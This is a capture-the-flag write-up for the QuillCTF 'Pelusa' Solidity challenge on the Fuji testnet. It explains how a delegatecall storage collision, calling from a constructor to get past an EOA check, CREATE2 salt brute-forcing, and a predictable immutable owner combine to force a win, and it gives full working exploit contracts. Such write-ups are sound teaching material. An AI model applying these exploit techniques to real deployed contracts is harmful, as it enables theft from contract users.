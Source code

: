 [pelusa](https://quillctf.super.site/challenges/quillctf-challenges/pelusa)

Pelusa contract deployed by me, on FUJI testnet: 0xC1685a791fB19BaD3785b66d8ce3B68829E3a76D, at block 18573166
Account used: 0x690aD8fABE17f1EeFF88E2Ef900f7b88e6eC0aF0

NOTE!!! My deployed Pelusa contract has public owner and player, just for ease of checking that the correct variables are changing.

Solution:
* There doesn't seem to be a way to change the goals from 1 to 2, outside of the existing delegateCall, since delegatecall changes memory in the calling contract's context.
```
(bool success, bytes memory data) = player.delegatecall(abi.encodeWithSignature("handOfGod()"));
```
* For that, we need Player to become our contract and return the correct things, and isGoal to return true;

## Player to become our contract, and return the correct things: passTheBall
### require(msg.sender.code.length == 0, "Only EOA players");
---
we need passTheBall to be called from the contract's constructor
```
address internal pelusaContract = 0xC1685a791fB19BaD3785b66d8ce3B68829E3a76D;

constructor() {
	// Set up owner as well
	Pelusa(pelusaContract).passTheBall();
}
```

### require(uint256(uint160(msg.sender)) % 100 == 10, "not allowed");
---
Player's address needs to respect the above. We can precompute the address where the contract will be deployed, using create2. We can iterate through multiple salts.
```
contract Create2Factory {
	event Deploy(address addr);
	event SaltFound(uint256 salt);

	uint256 private lastSalt = 0;

	function deploy(uint256 _salt) external {
			Player _contract = new Player{
					salt: bytes32(_salt)    // the number of salt determines the address of the contract that will be deployed
			}();
			emit Deploy(address(_contract));
	}

	function computeSalt() external returns (uint256) {
		bytes memory bytecode = type(Player).creationCode;
		for (uint256 salt = lastSalt; salt < 1000000000; salt++) {
			bytes32 hash  = keccak256(
					abi.encodePacked(
							bytes1(0xff), address(this), salt, keccak256(bytecode)
					)
			);

			address resultingAddress = address(uint160(uint(hash)));

			if (uint256(uint160(resultingAddress)) % 100 == 10) {
				emit SaltFound(salt);
				lastSalt = salt + 1;
				return salt;
			}
		}
	}
}
```
We will deploy this, and first call computeSalt, which returns 192. This is the salt needed for create2, so resulting Player address will be: address % 100 == 10.

Check with openzeppelin CLI:

## isGoal to return true
---
Since owner is immutable, it is not actually in storage, but only a constant, so we need to compute it ourselves.

Owner would be, since blockhash(block.number) returns 0x0000000000000000000000000000000000000000000000000000000000000000 on contract creation.
```
owner = address(uint160(uint256(keccak256(abi.encodePacked(0x690aD8fABE17f1EeFF88E2Ef900f7b88e6eC0aF0, bytes32(0x0000000000000000000000000000000000000000000000000000000000000000))))));
```
We will return owner from handOfGod()

with msg.sender = 0x690aD8fABE17f1EeFF88E2Ef900f7b88e6eC0aF0
Found out owner: 0x4Ab40C4a78Ca4537D01E0a8c1D20E76048306BEa

## Resulting code: 
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

import { Pelusa } from "./QuillCTF.sol";

contract Player {
  address internal pelusaContract = 0xC1685a791fB19BaD3785b66d8ce3B68829E3a76D;
  uint256 public goals; // this will sit at the same memory index as goals in the Pelusa contract

  address public owner;

  constructor() {
    owner = address(uint160(uint256(keccak256(abi.encodePacked(0x690aD8fABE17f1EeFF88E2Ef900f7b88e6eC0aF0, bytes32(0x0000000000000000000000000000000000000000000000000000000000000000))))));
    Pelusa(pelusaContract).passTheBall();
  }
  

  function handOfGod() external returns (uint256) {
    goals = 2;
    return uint256(22_06_1986);
  }

  function getBallPossesion() external view returns (address) {
    return owner;
  }

}
```

## Final Steps:
* Deploy Pelusa
* Take transaction hash, to figure out Pelusa's address and creation block.
* Hardcode my account and Pelusa's address in the Player contract.
* Deploy Create2Factory
* Call Create2Factory.computeSalt
* Call Create2Factory.deploy(computedSalt)
* Call Pelusa.shoot()
* Call Pelusa.goals(), to confirm there have been two goals